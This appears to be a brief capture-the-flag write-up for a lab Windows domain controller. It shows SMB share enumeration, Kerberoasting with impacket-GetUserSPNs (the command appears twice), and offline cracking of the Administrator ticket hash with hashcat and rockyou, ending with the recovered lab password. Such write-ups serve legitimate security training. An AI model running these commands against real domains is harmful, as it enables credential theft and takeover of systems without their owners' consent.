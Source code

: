 Didn't really get foothold but could enumerate the /users share which can be used to read `user.txt` content under `C:\Users\SVC_TGS\Desktop\`

Attempted Kerberoasting
```bash
impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS
```
This dumped krb5tgs hash for `Administrator`

```bash
impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS
```

Cracked the hash using hashcat
```bash
hashcat admin.krb5tgs /usr/share/wordlists/rockyou.txt
```
`Administrator:Ticketmaster1968`

